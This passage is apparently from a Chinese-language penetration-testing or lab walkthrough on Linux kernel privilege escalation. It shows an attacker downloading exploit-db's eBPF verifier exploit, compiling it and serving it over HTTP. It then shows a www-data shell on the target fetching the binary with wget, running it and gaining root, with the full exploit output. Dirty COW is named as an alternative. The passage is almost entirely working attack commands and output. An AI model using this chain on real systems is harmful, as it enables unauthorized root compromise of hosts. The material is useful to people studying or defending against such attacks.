 ```
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

直接脏牛或者 eBPF_verifier 提权即可。  

**使用 eBPF_verifier 提权**

在攻击机上编译二进制程序:

```
oot@yimeng:/tmp/tmp# wget -q https://www.exploit-db.com/download/45010 -O root.c
root@yimeng:/tmp/tmp# ls
root.c
root@yimeng:/tmp/tmp# gcc root.c -o root
root@yimeng:/tmp/tmp# ls
root  root.c
root@yimeng:/tmp/tmp# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

在目标机器上：

```
www-data@ubuntu:/tmp$ wget -q http://192.168.239.128/root
wget -q http://192.168.239.128/root
www-data@ubuntu:/tmp$ ls
ls
VMwareDnD
linux-exploit-suggester.sh
root
systemd-private-b51e825322ca410c92dd950e634e8b01-systemd-timesyncd.service-uwpQ2X
vmware-root
www-data@ubuntu:/tmp$ chmod +x root
chmod +x root
www-data@ubuntu:/tmp$ ./root
./root
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800b9e36700
[*] Leaking sock struct from ffff8800b6938780
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800b949e000
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800b949e000
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
#
```
